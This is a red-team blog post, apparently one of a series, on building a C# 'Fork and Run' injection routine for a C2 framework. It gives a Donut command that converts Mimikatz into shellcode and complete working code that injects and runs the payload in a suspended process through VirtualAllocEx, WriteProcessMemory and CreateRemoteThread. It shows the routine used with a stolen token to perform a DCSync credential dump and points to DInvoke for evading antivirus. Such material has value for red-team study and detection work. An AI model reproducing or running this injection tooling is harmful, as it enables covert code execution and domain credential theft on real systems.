 ```yaml
---
title: Fork and Run Implementation in C# - Shellcode Injection & Execution
author: Fropops
date: 2023-06-21 08:00:00 +0800
categories: [Developpement]
tags: [C#, C2, Red Team, Fork and Run, Injection, WinAPI, Command Execution]
---
```


# Introduction

In the previous articles, we saw how to use the Windows API to [create processes](/posts/Fork-and-Run-CSharp-Process-Creation/) for the current user or [with the rights of another user](/posts/Fork-and-Run-CSharp-User-impersonation-Token-Manipulation/). Now, we will leverage this knowledge to inject malicious code that we want to execute.

# Shellcode Preparation

The first step is to generate our "shellcode". There are many resources available online about understanding and generating shellcode, but it is beyond the scope of this post series. Therefore, we will simply use [Donut](https://github.com/TheWover/donut), a program that automatically generates the required shellcode to execute a chosen Windows program (for this example, we will use the famous tool, Mimikatz):

```shell
/opt/donut/donut -i /mnt/Share/Utils/win/programs/mimikatz64.exe -f 1 -a 2 -o /mnt/Share/tmp/Payload.bin -p 'coffee exit'
```

![Donut Shellcode Generation](/assets/img/posts/ForkAndRun/injection-donut.png)

Now, we need to incorporate this file containing the binary code into our application to be able to inject it. For this post, we will simply add it as a resource in our .NET project:


To do this, go to the properties of our project

![Ressource - Properties](/assets/img/posts/ForkAndRun/injection-ressource-properties.png)


Choose the "Resource" tab and click on the link "This project does not contain a default resource file. Click here to create one."

![Ressource - Creation](/assets/img/posts/ForkAndRun/injection-ressource-create.png)


Change the resource type to "File".

![Ressource - File](/assets/img/posts/ForkAndRun/injection-ressource-files.png)


Click on "Add resource" and select the file we just generated.

![Ressource - Payload](/assets/img/posts/ForkAndRun/injection-ressource-addpayload.png)


To access the content of this resource from our program, we can use the following line of code:
```c#
var shellcode = Properties.Resources.Payload;
```

# Shellcode Injection

Before injecting this code into the process we will create, there is one more change to make. In this case, we are creating a process that will serve as a shell to run our malicious program. So when we start the process, we don't want it to execute its own code. To achieve this, we will start the process in a suspended state. Therefore, we will insert the following line into the process creation properties:

```c#
creationFlags |= PROCESS_CREATION_FLAGS.CREATE_SUSPENDED;
```

There are different ways to inject shellcode, and there are numerous resources available on this topic. We will use one of the simplest and most well-known techniques. By using the functions VirtualAllocEx, WriteProcessMemory, and VirtualProtectEx, we will create a memory space in the created process that is large enough to hold our shellcode, copy the binary code into that space, and make the memory space executable.

We need to import these three functions:

```c#
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAllocEx(
	IntPtr hProcess,
	IntPtr lpAddress,
	int dwSize,
	AllocationType flAllocationType,
	MemoryProtection flProtect);

[DllImport("kernel32.dll")]
public static extern bool VirtualProtectEx(
	IntPtr hProcess,
	IntPtr lpAddress,
	int dwSize,
	MemoryProtection flNewProtect,
	out MemoryProtection lpflOldProtect);

[DllImport("kernel32.dll")]
public static extern bool WriteProcessMemory(
	IntPtr hProcess,
	IntPtr lpBaseAddress,
	byte[] lpBuffer,
	int nSize,
	out IntPtr lpNumberOfBytesWritten);
```

We also need to import the associated structures:

```c#
[Flags]
public enum AllocationType
{
	Commit = 0x1000,
	Reserve = 0x2000,
	Decommit = 0x4000,
	Release = 0x8000,
	Reset = 0x80000,
	Physical = 0x400000,
	TopDown = 0x100000,
	WriteWatch = 0x200000,
	LargePages = 0x20000000
}

[Flags]
public enum MemoryProtection
{
	Execute = 0x10,
	ExecuteRead = 0x20,
	ExecuteReadWrite = 0x40,
	ExecuteWriteCopy = 0x80,
	NoAccess = 0x01,
	ReadOnly = 0x02,
	ReadWrite = 0x04,
	WriteCopy = 0x08,
	GuardModifierflag = 0x100,
	NoCacheModifierflag = 0x200,
	WriteCombineModifierflag = 0x400
}
```

In our program, we use these functions to inject the code into the process:

```c#
var baseAddress = VirtualAllocEx(
   pInfo.hProcess,
   IntPtr.Zero,
   shellcode.Length,
   AllocationType.Commit |  AllocationType.Reserve,
   MemoryProtection.ReadWrite);

if (baseAddress == IntPtr.Zero)
	throw new InvalidOperationException($"Failed to allocate memory, error code: {Marshal.GetLastWin32Error()}");


IntPtr bytesWritten = IntPtr.Zero;
if (!WriteProcessMemory(pInfo.hProcess, baseAddress, shellcode, shellcode.Length, out bytesWritten))
	throw new InvalidOperationException($"Failed to write shellcode into the process, error code: {Marshal.GetLastWin32Error()}");

if (bytesWritten.ToInt32() != shellcode.Length)
	throw new InvalidOperationException($"Failed to write All the shellcode into the process");

if (!VirtualProtectEx(
	pInfo.hProcess,
	baseAddress,
	shellcode.Length,
	MemoryProtection.ExecuteRead,
	out _))
{
	throw new InvalidOperationException($"Failed to cahnge memory to execute, error code: {Marshal.GetLastWin32Error()}");
}
```

To execute the injected code, we can rely on the CreateRemoteThread function, which we need to import:

```c#
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr CreateRemoteThread(
	IntPtr hProcess,
	IntPtr lpThreadAttributes,
	uint dwStackSize,
	IntPtr lpStartAddress,
	IntPtr lpParameter,
	uint dwCreationFlags,
	out IntPtr lpThreadId);
```

Then, we can use it as follows:
```c#
IntPtr threadres = IntPtr.Zero;
IntPtr thread = CreateRemoteThread(pInfo.hProcess, IntPtr.Zero, 0, baseAddress, IntPtr.Zero, 0, out threadres);

if (thread == IntPtr.Zero)
	throw new InvalidOperationException($"Failed to create remote thread to start execution of the shellcode, error code: {Marshal.GetLastWin32Error()}");
```

And here's the result :

![Injection - Mimikatz](/assets/img/posts/ForkAndRun/injection-mimikatz.png)

# What does it look like in our C2?

Assembling all the pieces we have prepared so far in our C2, we are able to execute malicious tools (such as Mimikatz) using the privileges of other users.


Let's use our "Fork And Run" implementation to try a DCSync attack with the current user:
![Injection - C2 - DCSync As Current User](/assets/img/posts/ForkAndRun/injection-c2-norights.png)

As expected, we do not have sufficient privileges for this attack.

Now, let's use Token manipulation to borrow the rights of the administrator logged in to our machine:

![Injection - C2 - Steal Token](/assets/img/posts/ForkAndRun/injection-c2-steal.png)

Let's repeat the attack from this new context:

![Injection - C2 - DCSync](/assets/img/posts/ForkAndRun/injection-c2-dcsync.png)



You can find the complete source code of this article on [Github](https://github.com/Fropops/OffensiveWinAPI/blob/main/TestForBlog/Injection.cs)


# Final Words

In this series of posts, we focused on implementing the simplest possible version of the "Fork and Run" technique in C#. However, there are several areas of improvement, particularly in terms of utilizing the Windows API and code injection techniques.

The direct invocation of Windows API functions using PInvoke presents a significant opportunity for detection by antivirus and other defense tools. To mitigate this detection risk, alternative methods of invoking these functions have been developed to make attacks more stealthy. One well-known alternative is the use of DInvoke (Dynamic Invocation), popularized by [TheWover](https://github.com/TheWover/DInvoke). RastaMouse has also reworked the code to provide a minimalist form that can be easily integrated into offensive tools available on  on [gitHub](https://github.com/rasta-mouse/DInvoke). 
For further insights, I highly recommend reading Crypt0ace's [blog post](https://crypt0ace.github.io/posts/Using-DInvoke-For-Offensive-Tool-Development/) on the subject.

In addition to Windows API enhancements, there are multiple code injection methods worth exploring. Crypt0ace has extensively covered various injection techniques in his [blog](https://crypt0ace.github.io/). These articles provide a comprehensive overview and explanations of these techniques.